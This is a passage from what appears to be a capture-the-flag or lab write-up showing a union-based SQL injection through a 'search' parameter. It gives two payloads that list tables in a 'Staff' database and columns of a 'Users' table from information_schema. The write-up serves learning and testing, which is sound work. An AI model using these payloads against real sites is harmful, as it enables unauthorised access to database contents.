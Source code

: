 We have two databases, `Staff` and `users`.<br />
Let's find the tables in `Staff`.<br />
`search=a' union select table_name,2,3,4,5,6 from information_schema.tables where table_schema='Staff' -- -`.

![](Pics/sql7.png)
<br />
<br />

Let's get the columns for the table `Users`.<br />
`search=a' union select column_name,2,3,4,5,6 from information_schema.columns where table_name='Users' -- -`.

![](Pics/sql8.png)
<br />
<br />
